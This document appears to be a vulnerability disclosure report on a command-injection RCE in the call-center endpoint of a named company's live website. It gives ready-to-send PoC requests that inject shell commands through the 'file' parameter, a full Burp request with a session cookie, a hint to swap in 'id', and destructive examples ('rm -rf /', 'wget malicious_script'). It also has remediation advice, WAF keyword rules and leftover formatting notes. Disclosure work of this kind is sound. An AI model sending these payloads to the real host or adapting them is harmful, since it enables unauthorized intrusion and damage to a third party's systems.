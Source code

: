 # Vulnerability Title
**Remote Code Execution (RCE) Vulnerability in Aishida Co., Ltd. Call Center System**  


# Vulnerability Overview
A Remote Code Execution (RCE) vulnerability exists in the interface of Aishida Co., Ltd.'s call center system. Attackers can exploit this vulnerability by crafting malicious request parameters to execute arbitrary shell commands on the target server, thereby gaining full control of the system. The root cause is insufficient input validation, allowing attackers to inject command separators (e.g., `||`) to trigger malicious code execution.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741962864697-455e1676-a6e4-4199-9cd7-c59a34662aaa.png)
**Vulnerability Website:** http://www.asd.com.cn/

# Asset Verification
## Company Profile
Aishida Co., Ltd. (Stock Code: 002403), founded in 1978, is a publicly listed enterprise specializing in the R&D, manufacturing, and marketing of cookware, small kitchen appliances, and industrial robots. With nearly 10,000 employees, the company achieved over 3 billion RMB in sales revenue in 2021. It operates production facilities in Wenling, Jiashan, Hubei, and Shanghai, and maintains a comprehensive sales network covering over 60,000 terminals (direct sales + distributors), e-commerce platforms, live streaming, social communities, group purchasing, TV shopping, cross-border e-commerce, and OEM exports. Brand ambassadors include Sun Li and Ren Jialun.  

Aishida has participated in drafting 20 national or industry standards for cookware, including non-stick pans, smokeless pans, aluminum pressure cookers, and stainless steel pressure cookers. The GB 15066—2004 stainless steel pressure cooker standard, co-drafted by Aishida, won the China Standards Innovation Contribution Award. The company is recognized as a National Intellectual Property Pilot Enterprise and a National Torch Program Key High-Tech Enterprise. Guided by its mission, "Manufacturing Healthy Kitchen Products to Enhance Human Life Quality," Aishida strives to promote green kitchens and aims to evolve into a dual-driven enterprise integrating cookware, home goods, consumer products, and intelligent manufacturing.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741960859990-099ce111-60ab-434b-8922-7ca6c6af26ea.png)  

## Corporate Information
### ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961216972-90c4cb20-8b40-4e15-a67c-23f0972ffaac.png)
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961341526-993f929b-b0c0-4640-a63d-966165b11ee1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961255910-c1d5af07-3ddd-45af-ac8c-04f6fbde7912.png)  

+ **Chinese Name:** 爱仕达股份有限公司  
+ **English Name:** Aishida Co., Ltd.  
+ **Website:** [http://www.chinaasd.com](http://www.chinaasd.com)  
+ **Email:** 445778987@qq.com


# Technical Analysis
## Vulnerability Location
**Affected Endpoint:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=[User Input]  
```

## Root Cause
1. **Lack of Input Sanitization:** The `file` parameter is directly concatenated into system commands (e.g., using `system()` or `popen()` functions).  
2. **Command Injection Logic:**  
The server expects to execute commands such as:  

```bash
ffmpeg -i [User Input].amr output.mp3  
```

If an attacker injects `a 'aaabbbcccddd || sleep 5 ||`, the executed command becomes:  

```bash
ffmpeg -i a 'aaabbbcccddd || sleep 5 ||.amr output.mp3  
```

The shell interpreter treats `||` as command separators, causing `sleep 5` to execute independently.


# Proof of Concept (PoC)
## PoC 1: Delay via Sleep Command
### Sleep for 5 Seconds
1. **PoC Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a 'aaabbbcccddd || `sleep 5`   ||  
```

2. **URL-Encoded Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20||  
```

3. **Validation:**  
    - Observe response time: A 5-second delay confirms successful execution.  
    - Replace `sleep 5` with other commands (e.g., `id`) to retrieve system user information.

### Burp Suite Request
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

### Screenshots
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961160896-35b79252-647c-4447-ac0b-b75b87a5b4c1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961815540-79db6fd6-544e-44fc-aa78-6d7471e2cae6.png)  


## PoC 2: Sleep for 10 Seconds
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%2010`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961982633-d84201b4-5d26-421b-b924-ef003e78fdd6.png)  


# Impact Assessment
1. **Full Server Compromise:** Attackers can execute commands like `rm -rf /` or `wget malicious_script`, leading to data breaches or system crashes.  
2. **Lateral Movement:** Compromised servers can be used as pivots to attack internal databases or other systems.  
3. **Compliance Risks:** Violates Articles 21 and 25 of China’s Cybersecurity Law, exposing the company to legal penalties.  
4. **Reputation Damage:** Data breaches severely harm brand credibility.


# Remediation Strategies
## 1. Input Filtering & Whitelisting
+ **Regex Filtering:** Restrict the `file` parameter to valid characters (e.g., `^[a-zA-Z0-9_\-\.]+$`), blocking inputs containing `|`, `&`, `;`, etc.  
+ **Predefined File List:** Match input against a predefined list if `file` corresponds to fixed resources.

## 2. Secure Command Execution
+ **Parameterized APIs (Python Example):**  

```python
subprocess.run(["ffmpeg", "-i", user_input + ".amr", "output.mp3"], shell=False)  
```

+ **Avoid Command Concatenation:** Refrain from using high-risk functions like `os.system()`.

## 3. Least Privilege
+ **Non-root Execution:** Run web services under a non-root user with restricted filesystem access.

## 4. Emergency Mitigation
+ **WAF Rules:** Block requests containing keywords like `sleep`, `&&`, `||`.  
+ **Log Monitoring:** Alert on suspicious activities (e.g., `/bin/sh` invocations).

## 5. Long-term Hardening
+ **Code Audit:** Review all interfaces for similar vulnerabilities.  
+ **Penetration Testing:** Conduct regular third-party black-box testing.


**Formatting Notes:**  

1. Use ` to separate sections for clarity.  
2. Specify code block languages (e.g., `bash`, `http`) for readability.  
3. Include technical details (e.g., regex patterns, code samples) in remediation strategies.  
4. Supplement PoC sections with screenshots to enhance credibility.

